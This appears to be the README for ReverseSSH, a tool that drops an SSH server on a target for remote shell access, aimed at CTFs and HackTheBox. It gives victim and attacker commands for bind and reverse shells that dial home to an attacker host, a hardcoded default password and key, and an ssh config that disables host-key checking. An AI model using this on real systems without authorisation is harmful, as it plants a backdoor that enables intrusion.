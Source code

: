 # ReverseSSH

**A statically-linked ssh server with a reverse connection feature for simple yet powerful remote access. Most useful during HackTheBox challenges, CTFs or similar.**

**[Get the latest Release](https://github.com/Fahrj/reverse-ssh/releases)**


## Features

Catching a reverse shell with _netcat_ is cool, sure, but who hasn't accidentally closed a reverse shell with a keyboard interrupt due to muscle memory?
Besides their fragility, such shells are also often missing convenience features such as fully interactive access, TAB-completion or history.

Instead you can go the way to simply deploy a **lightweight ssh server** (<1.5MB) onto the target and use additional commodities such as **file transfer** and **port forwarding**!

ReverseSSH tries to bridge the gap between initial foothold on a target and full local privilege escalation.
Its main strengths are the following:

* **Fully interactive shell access** (A fully interactive powershell on windows relies on the [Windows Pseudo Console ConPTY](https://devblogs.microsoft.com/commandline/windows-command-line-introducing-the-windows-pseudo-console-conpty/) and thus requires at least `Win10 Build 17763`. Before that, it still works, but you only get a somewhat interactive, generic reverse shell.)
* **File transfer via sftp**
* **Local / remote / dynamic port forwarding**
* Supports **Unix** and **Windows** operating systems


## Requirements

Simply executing the provided binaries only relies on [golang system requirements](https://github.com/golang/go/wiki/MinimumRequirements#operating-systems).

In short:

* **Linux**: kernel version 2.6.23 and higher
* **Windows**: Windows Server 2008R2 and higher or Windows 7 and higher

Compiling additionally requires the following:

* golang version 1.15
* optionally `upx` for compression (e.g. `apt install upx-ucl`)


## Usage

```shell
reverseSSH v1.0.0-alpha  Copyright (C) 2021  Ferdinor <ferdinor@mailbox.org>

Usage: reverse-ssh [options] [<user>@]<target>

Examples:
  Bind:
        reverse-ssh
        reverse-ssh -v -l :4444
  Reverse:
        reverse-ssh -p 31337 192.168.0.1
        reverse-ssh -v -b 0 kali@192.168.0.2

Options:
        -s, Shell to use for incoming connections, e.g. /bin/bash; no effect for windows (default: /bin/bash)
        -l, Bind scenario only: listen at this address:port (default: :31337)
        -p, Reverse scenario only: ssh port at home (default: 22)
        -b, Reverse scenario only: bind to this port after dialling home (default: 8888)
        -v, Emit log output

<target>
        Optional target which enables the reverse scenario. Can be prependend with
        <user>@ to authenticate as a different user than 'reverse' while dialling home.

Credentials:
        Accepting all incoming connections from any user with either of the following:
         * Password "letmeinbrudipls"
         * PubKey   "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKlbJwr+ueQ0gojy4QWr2sUWcNC/Y9eV9RdY3PLO7Bk/ Brudi"
```

Once `reverse-ssh` is running, you can connect with any username and the default password `letmeinbrudipls`, the ssh key or whatever you specified during compilation.
After all, it is just an ssh server:

```shell
# Simple, interactive shell access
$ssh -p <RPORT> <RHOST>

# Full-fledged file transfers
$sftp -P <RPORT> <RHOST>

# Dynamic port forwarding as SOCKS proxy
$ssh -p <RPORT> -D 9050 <RHOST>
```

For even more convenience, add the following to your `~/.ssh/config`, copy the [ssh private key](id_reverse-ssh.pub) to `~/.ssh/` and simply call `ssh target` or `sftp target` afterwards:

```shell
Host target
        Hostname 127.0.0.1
        Port 8888
        IdentityFile ~/.ssh/id_reverse-ssh
        IdentitiesOnly yes
        StrictHostKeyChecking no
        UserKnownHostsFile /dev/null
```

### Simple bind shell scenario

```shell
# Victim
$./reverse-ssh

# Attacker (default password: letmeinbrudipls)
$ssh -p 31337 <LHOST>
```

### Simple reverse shell scenario

```shell
# On attacker (get ready to catch the incoming request; can be omitted if you already have an ssh daemon running)
attacker$./reverse-ssh -l :<LPORT>

# On victim
victim$./reverse-ssh -p <LPORT> <LHOST>
# or in case of another ssh daemon listening at port 22
victim$./reverse-ssh <USER>@<LHOST>

# On attacker (default password: letmeinbrudipls)
attacker$ssh -p 8888 127.0.0.1
# or with ssh config from above
attacker$ssh target
```

In the end it's plain ssh, so you could catch the remote port forwarding call coming from the victim's machine with your openssh daemon listening on port 22.
Just prepend `<USER>@` and provide the password once asked to do so.
Dialling home currently is password only, because I didn't feel like baking a private key in there as well yet...


## Build instructions

Make sure to install the above requirements such as golang in a matching version and set it up correctly.
Afterwards, you can compile with `make`, which will create static binaries in `bin`.
Use `make compressed` to pack the binaries with upx to further reduce their size.

```shell
$make

# or to additionally created binaries packed with upx
$make compressed
```

You can also specify a personalized password (`RS_PASS`) or authorized key (`RS_PUB`) when compiling:

```shell
$ssh-keygen -t ed25519 -f id_reverse-ssh

$RS_PASS="secret" RS_PUB="$(cat id_reverse-ssh.pub)" make compressed
```

## Contribute

Is a mind-blowing feature missing? Anything not working as intended?

**Create an issue or pull request!**